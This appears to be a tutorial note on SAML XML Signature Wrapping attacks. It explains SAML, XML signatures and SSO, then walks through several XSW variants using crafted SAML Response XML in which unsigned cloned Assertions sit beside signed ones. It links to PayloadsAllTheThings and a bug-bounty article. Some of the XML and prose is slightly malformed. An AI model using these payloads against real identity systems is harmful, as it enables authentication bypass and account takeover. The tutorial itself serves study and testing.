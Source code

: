 
##  SAML(Security Assertion Markup Language) :

Signature Wrapping (XSW) attacks are based on a vulnerability in the SAML protocol. These attacks occur in the absence of XML Digital Signature (XML DSig) validation, which is used to establish trust between the identity provider (IdP) and the service provider (SP).

An attack may involve the following steps:

1. The attacker captures the user’s credentials (for example, the username and password used to log in to the identity provider).
2. The attacker creates or modifies the SAML identity statement. 
3. The identity statement verifies that the user is authorized and has the right to access a specific SP.
4. The attacker sends the SAML identity statement to the targeted SP. 
5. The identity statement implies that the attacker is an authorized user and should be trusted by the SP.
6. SP accepts the SAML credential and securely processes the user information in it without validating it.

## XML Digital Signature

XML digital signatures will **enable a sender to cryptographic sign data, and the signatures can then be used as authentication credentials or a way to check data integrity**.

**Single Sign-On (SSO)** is an authentication protocol that allows users to authenticate with multiple platforms through a single platform. With SSO, users can log in once and access services without re-entering authentication factors.

## XSW

1.Add a fake request behind an original SAML Response request and send it. This allows us to log in with SSO if the field we send is not checked by the Service.

~~~
<Response xmlns="urn:oasis:names:tc:SAML:2.0:protocol" ID="_d71c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z" Destination="https://service-provider.com/acs">
  <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
  <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
    <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </Status>
  <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e44c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
    <Issuer>https://identity-provider.com</Issuer>
    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
      </SubjectConfirmation>
    </Subject>
    <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
      <AudienceRestriction>
        <Audience>https://service-provider.com</Audience>
      </AudienceRestriction>
    </Conditions>
    <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e44c9c3e8e9f6744e6e8d18d5f7fdd5a">
      <AuthnContext>
        <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
      </AuthnContext>
    </AuthnStatement>
    <Signature xmlns="http://www.w3.org/2000/09/xmldsig#">
      <!-- Orijinal Signature -->
    </Signature>
  </Assertion>
  ~~~

unregistered response 

  ~~~
  <Response>
    <!-- Cloned, unsigned Response copy -->
    <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
    <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
      <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    </Status>
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
        <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
          <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
        </SubjectConfirmation>
      </Subject>
      <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
        <AudienceRestriction>
          <Audience>https://service-provider.com</Audience>
        </AudienceRestriction>
      </Conditions>
      <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
        <AuthnContext>
          <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
        </AuthnContext>
      </AuthnStatement>
    </Assertion>
  </Response>
</Response>
~~~


2.All SAML elements in the original Response have been preserved and a cloned copy of the Response has been attached unsigned. Both the original and cloned Response contain Assertions generated by the same identity provider. What we have done here is to send an unsigned response before the correct response and signature to try to get authorization from the SP and login with SSO.

~~~
<Response xmlns="urn:oasis:names:tc:SAML:2.0:protocol" ID="_d71c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z" Destination="https://service-provider.com/acs">
  <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
  <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
    <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </Status>
  <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
    <Issuer>https://identity-provider.com</Issuer>
    <Subject>
      <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
      <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
      </SubjectConfirmation>
    </Subject>
    <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
      <AudienceRestriction>
        <Audience>https://service-provider.com</Audience>
      </AudienceRestriction>
    </Conditions>
    <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5a">
      <AuthnContext>
        <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
      </AuthnContext>
    </AuthnStatement>
  </Assertion>
  ~~~

 cloned copy of the response
 
~~~
 <Response>
    <Issuer xmlns="urn:oasis:names:tc:SAML:2.0:assertion">https://identity-provider.com</Issuer>
    <Status xmlns="urn:oasis:names:tc:SAML:2.0:protocol">
      <StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    </Status>
    <Assertion xmlns="urn:oasis:names:tc:SAML:2.0:assertion" ID="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b" Version="2.0" IssueInstant="2023-07-02T12:34:56Z">
      <Issuer>https://identity-provider.com</Issuer>
      <Subject>
        <NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@example.com</NameID>
        <SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
          <SubjectConfirmationData NotOnOrAfter="2023-07-02T12:44:56Z" Recipient="https://service-provider.com/acs"/>
        </SubjectConfirmation>
      </Subject>
      <Conditions NotBefore="2023-07-02T12:34:56Z" NotOnOrAfter="2023-07-02T12:44:56Z">
        <AudienceRestriction>
          <Audience>https://service-provider.com</Audience>
        </AudienceRestriction>
      </Conditions>
      <AuthnStatement AuthnInstant="2023-07-02T12:34:56Z" SessionIndex="_e55c9c3e8e9f6744e6e8d18d5f7fdd5b">
        <AuthnContext>
          <AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</AuthnContextClassRef>
        </AuthnContext>
      </AuthnStatement>
    </Assertion>
  </Response>
</Response>
~~~

3.It occurs in SAML Assertion messages. The attacker inserts a cloned and unsigned Assertion copy in front of the existing Assertion. Thus, the SAML message is manipulated to contain more than one Assertion

4.It occurs in SAML Assertion messages. The attacker inserts a cloned and unsigned Assertion copy into the existing Assertion. Thus, there is more than one Assertion in the existing Assertion and the attacker’s authorization is extended.


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SAML%20Injection/README.md

https://medium.com/@batuhanaydinn/bug-bounty-hunter-understanding-saml-vulnerabilities-xsw-attacks-8c43c601d2d1







